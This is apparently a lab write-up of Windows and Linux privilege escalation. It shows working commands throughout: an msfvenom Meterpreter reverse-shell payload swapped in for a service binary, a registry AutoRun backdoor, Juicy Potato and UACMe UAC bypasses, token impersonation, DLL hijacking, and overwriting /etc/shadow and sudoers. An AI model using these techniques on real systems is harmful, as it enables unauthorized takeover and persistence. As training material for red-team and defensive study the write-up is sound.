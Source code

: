 ```yaml
---

# **Privilege Escalation Techniques - Windows & Linux**

---
```


## **1. Privilege Escalation with PowerUp**

With a Meterpreter session on a Windows target, we imported PowerUp.ps1 and ran `Invoke-AllChecks`. PowerUp identified misconfigurations, allowing us to escalate privileges. Two key methods demonstrated:

* **HTA Exploit**: Hosted an HTA payload via `msfvenom` and `web_delivery`, executed it on the victim system, resulting in a Meterpreter session with admin rights.
* **PsExec**: Used Metasploit's `exploit/windows/smb/psexec` with stolen admin credentials to gain a privileged Meterpreter session.

---

## **2. Privilege Escalation with PrivescCheck**

We used [PrivescCheck](https://github.com/itm4n/PrivescCheck) to scan the system. The report revealed plaintext credentials stored in the **WinLogon registry key**. After extracting credentials, we used `runas.exe` and `psexec` for privilege escalation.

---

## **3. Unattended Installation File**

Identified `Unattend.xml` via PowerUp. Extracted the base64-encoded password and decoded it:

```bash
echo "QWRtaW5AMTIz" | base64 -d
```

Result: `Admin@123`

Used `runas.exe` to escalate privileges:

```powershell
runas.exe /user:administrator cmd
```

Also reused credentials with `psexec` in Metasploit to gain privileged shell access.

---

## **4. Windows Credential Manager**

Used:

```cmd
cmdkey /list
```

No credentials were listed, but escalation was still possible with:

```powershell
runas.exe /savecred /user:administrator cmd
```

Also demonstrated creating a reverse shell payload via `msfvenom` and using PowerShell Web Delivery to open a Meterpreter session.

---

## **5. PowerShell History**

Inspected:

```
C:\Users\student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

Discovered previously entered PowerShell commands, including potential credentials and scripts that assisted in lateral movement or escalation.

---

## **6. Exploiting Insecure Service Permissions**

PowerUp identified that `FileZilla Server.exe` was writable by the student user. Replaced the binary with a malicious payload using:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali IP> LPORT=4444 -f exe > "FileZilla Server.exe"
```

Downloaded and replaced the service binary. Upon restarting the service, a SYSTEM Meterpreter session was received.

---

## **7. Registry AutoRuns Privilege Escalation**

Found writable registry key at:

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Created an AutoRun key pointing to a Meterpreter payload:

```powershell
New-ItemProperty -Path "HKLM:\...\Run" -Name "hacker" -Value "C:\Users\student\Desktop\tool\program.exe"
```

Upon logout and login, the payload executed with elevated privileges.

---

## **8. Access Token Impersonation**

Used `incognito` in Meterpreter:

```powershell
load incognito
list_tokens -u
impersonate_token DOMAIN\Admin
getuid
```

Successfully impersonated a privileged token and operated with elevated access.

---

## **9. Juicy Potato Exploit (SeImpersonatePrivilege)**

Confirmed token privileges:

```powershell
whoami /priv
```

Uploaded `JuicyPotato.exe` and a reverse shell payload. Executed:

```cmd
JuicyPotato.exe -l 4444 -p C:\Users\Public\backdoor.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

Resulted in SYSTEM-level shell.

---

## **10. Bypassing UAC with UACMe**

Uploaded `akagi64.exe` (UACMe), identified method 62 (`fodhelper.exe`) for bypass:

```cmd
akagi64.exe 62 C:\Users\Public\payload.exe
```

Executed payload with auto-elevated privileges, bypassing UAC prompts.

---

## **11. DLL Hijacking**

Using Process Monitor, identified missing DLLs. Created a malicious DLL with:

```bash
x86_64-w64-mingw32-gcc -shared -o example.dll malicious.c
```

Placed DLL in the application's directory. When the app was launched, our DLL was loaded, executing the payload with elevated privileges.

---

# **Linux Privilege Escalation Techniques**

## **1. Locally Stored Credentials**

Searched config files in `/var/www/html`:

```bash
grep -nr "db_user" .
```

Found credentials in `database.inc.php`, then switched to root with:

```bash
su
```

---

## **2. Misconfigured File Permissions**

Checked for world-writable files:

```bash
find / -not -type l -perm -o+w
```

Found `/etc/shadow` writable. Generated password:

```bash
openssl passwd -1 -salt abc password
```

Modified `/etc/shadow` to include this hash for root. Logged in as root via `su`.

---

## **3. Exploiting SUID Binaries**

Identified `vim.tiny` with SUID:

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
```

Used `vim.tiny` to edit `/etc/sudoers`, granting the student user passwordless sudo access.

---

# Summary

These techniques demonstrate a wide range of **Windows and Linux privilege escalation** methods, including:

* Misconfigurations (e.g., writable services, registry, shadow files)
* Exploitation of features (e.g., SeImpersonate, SUID)
* Token impersonation and UAC bypasses
* Analysis tools: PowerUp, PrivescCheck, Autoruns, ProcMon
* Custom payloads using `msfvenom` and Metasploit

These techniques are essential for internal network pivoting, post-exploitation access, and realistic red team operations.

---
